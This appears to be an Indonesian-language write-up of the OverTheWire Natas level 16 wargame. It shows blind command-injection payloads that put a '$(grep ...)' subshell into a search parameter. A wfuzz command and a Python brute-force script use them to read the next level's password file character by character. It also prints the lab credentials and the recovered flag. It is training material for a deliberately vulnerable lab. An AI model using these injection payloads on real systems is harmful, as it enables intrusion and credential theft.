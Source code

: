 ```yaml
---
layout: default
test_level16
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas16
URL:      http://natas16.natas.labs.overthewire.org

# solve 
- login with cred natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
- lalu saya melihat source codenya
  ![alt text](docs/images/image-50.png)
- jika kita lihat disini seperti tantangan yang sebelumnya
- namun ketika saya coba seperti sebelumnya itu tidak berhasil
  ![alt text](docs/images/image-51.png)
- lalu saya mencari tentang sub shell, dan mencoba ini
  ![alt text](docs/images/image-52.png)
  ```bash
  grep $(echo a) dictionary.txt 
  # maka dictionary akan tampil

  # dan secara teori fungsi "$(coommand)" adalah subshell
  # yang dimana jika saya lakukan cat $(file1.txt) file2.txt
  ```
- dan saya ingin mencoba mencari tau dengan grep di dalam grep
  - jadi ketika saya ```grep $(grep a /etc/natas_webpass/natas17) dictionary.txt```
  - saya berharap ketika saya grep a pada password natas17 dan jika memang ada filenya dan
    - dan hasil dari output subshell misal ```afdadfafas``` akan di lakukan ```grep -i fafadfafa dictionary.txt```
  - yang secara teori hasilnya akan kosong
- nah disini saya mencoba dulu apakah benar berhasil
  ![alt text](docs/images/image-53.png)
  ![alt text](docs/images/image-54.png)
  ```bash
  $(grep a /etc/natas_webpass/natas17) # showing     ==> false
  $(grep b /etc/natas_webpass/natas17) # not showing ==> true
  ```
- disini jika kita coba ketika grep a tidak ada asumsi paswword tidak menggunakan a dan karena tidak ada ketika di grep yang kedua dia akan melakukan grep a
- sedangkan ketika coba b tidak muncul yang berarti grep yang pertama berhasil, lalu gagal di kedua makanya kosong
- dan sebnernya kalo di cli kalo run kaya gitu ada error jika teksnya itu tidak ada di grep yang pertama
  - solusinya tambahkan string di akhir
    ```bash
    $(grep a /etc/natas_webpass/natas17)a
    ```
- hanya saja masalahnya kita tidak tahu huruf itu adalah huruf pertama atau terakhir
  - dan saya menemukan solusi kita bisa gunakan regex
    ```bash
    $(grep ^b /etc/natas_webpass/natas17)a
    ```
- lalu saya mencoba menggunakan wfuzz untuk menbrute force 1 kata per kata
  ```bash
  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^FUZZ /etc/natas_webpass/natas17)a&submit=Search'
  # output all

  | grep -v 24202 # grep output
  | grep -v 24202 | tr -d "L" # hapus karakter L karena tiba tiba ada karakter L
  | grep -v 24202 | tr -d "L" | tr -d "\n" # hapus nweline
  
  $(grep ^FUZZ /etc/natas_webpass/natas17)
  # 000000031:   200        28      79 W       1105 Ch     "E"
  $(grep ^EFUZZ /etc/natas_webpass/natas17)
  # 000000017:   200        28      79 W       1105 Ch     "q"
  # dan seterusnya
  # EqjHJbo7LF
  # EqjHJbo7LFNb8vw
  # EqjHJbo7LFNb8vwhHb9s75
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

  # dan ternyata sudah uruf 30+ yang berarti sudah ketemu passwordnya

  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^EqjHJbo7LFNb8vwhHb9s75hokh5TF0OFUZZ /etc/natas_webpass/natas17)a&submit=Search' | grep -v 24202
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## solve with script python
- script
  ```py
  import requests
  from string import ascii_letters, digits

  url = "http://natas16.natas.labs.overthewire.org"
  username = "natas16"
  password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

  def brute_force_chars():
      charset = ascii_letters + digits
      found_password = ""

      while True:
          for char in charset:
              test_password = found_password + char
              payload = f"$(grep ^{test_password} /etc/natas_webpass/natas17)a"

              response = requests.get(
                  url,
                  auth=(username, password),
                  params={"needle": payload, "submit": "Search"}
              )

              if "African" not in response.text:
                  found_password += char
                  print(f"[+] Password so far: {found_password}")
                  break
          else:
              print("[+] Password found:", found_password)
              return

  if __name__ == "__main__":
      brute_force_chars()
  ```
- run
  ```bash
  python3 overthewire/natas/solve/level16.py 
  [+] Password so far: E
  [+] Password so far: Eq
  [+] Password so far: Eqj
  [+] Password so far: EqjH
  ......
  [+] Password so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## subshell
```bash
cat pass
ariafatah

grep -i $(grep a pass) dictionary # not show because in pass have char a
grep -i $(grep b pass) dictionary # not showing because not have b in chat but stuck loading
^C

grep -i $(grep b pass)a dictionary | head # solusinya menambahkan string lagi di akhir
# African
# Africans

# fungsi string akhir itu biar ketika kita tidak menemukan huruf b pada pass dan ketika dia melakukan pengecekan
# kosong dari dictionary maka seharusnya akan menambahkan huruf a gitu
# jadi nanti hasilnya bakal grep -i a dictionary
# dan bukan grep -i  dictionary

# ya intinya fungsinya subshell akan dijalankan terlebih dahulu
# setelah itu hasil dari subshell akan dibaca oleh cat lalu, akan melanjutkan comman selanjutnya

grep -i $(grep ^ariafatah pass)a dictionary | head # true
grep -i $(grep ^aria pass)a dictionary | head # true
grep -i $(grep ^fatah pass)a dictionary | head # false
# African
# Africans

# sebenerya ada tamabahn option biar lebih spesifik untuk regexnya
grep -E ^a.*$

grep -i $(grep -E ^aria.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafatah.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafataha.*$  pass)a dictionary | head
# African
# Africans

## namun hasilnya akan tetap sama aja sih sebenernya
```

# flag
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
